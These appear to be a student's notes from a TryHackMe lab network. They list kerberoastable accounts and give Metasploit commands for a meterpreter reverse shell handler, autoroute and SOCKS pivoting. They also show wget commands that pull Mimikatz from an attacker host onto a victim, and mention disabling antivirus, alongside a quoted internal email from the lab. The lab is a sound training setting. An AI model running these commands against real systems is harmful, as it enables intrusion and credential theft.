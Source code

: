 Kerberostable accounts:

1) SQLSERVICE
2) KRBTGT


Notes for tomorrow:
> Re-establish the proxychains connection
> Do disable AV again on the machine
> Fix neo4j on ubuntu
> Enumerate the entire Bloodhound output
> Look at TimeKeep server and submit answers on THM
> Complete Task 24 before moving on.

## Proxychain Setup Command:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 55
exploit
## Execute the pre-compiled version on prod
background
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 10.200.19.0/24
exploit

use auxiliary/server/socks_proxy
set VERSION 4A
exploit
```

## Downloading Mimikatz onto the victim machine
```
mkdir mimikatz
cd mimikatz
wget 10.50.17.48:8000/mimikatz/mimidrv.sys -outfile mimidrv.sys
wget 10.50.17.48:8000/mimikatz/mimikatz.exe -outfile mimikatz.exe
wget 10.50.17.48:8000/mimikatz/mimilib.dll -outfile mimilib.dll
```

Administrator doesn't work on WS01
```
Hey team! Happy Thursday!

Not much on the schedule for this week, we are continuing our transition to our new
servers please be patient with us as we make this transition.

In order to access your usual resources please go to mail.corporate.local where you will
find our new emailing service, as well as breachgtfo.local where you will find our
proprierty breach service that all of you are already used to.
If you have not already please add 10.200.x.232 to your hosts file in order to access these resources.

As we are auditing our infrastructure please remeber that no personal social media
accounts should be connected to company resources such as github. If you need to use twitter to make company announcments
please use the @tbhSecurity twitter.

Please remain patient during this transition and dont be afraid to email me or any of the
other team members with questions

Summers Winters,
CEO of Throwback Hacks Security
```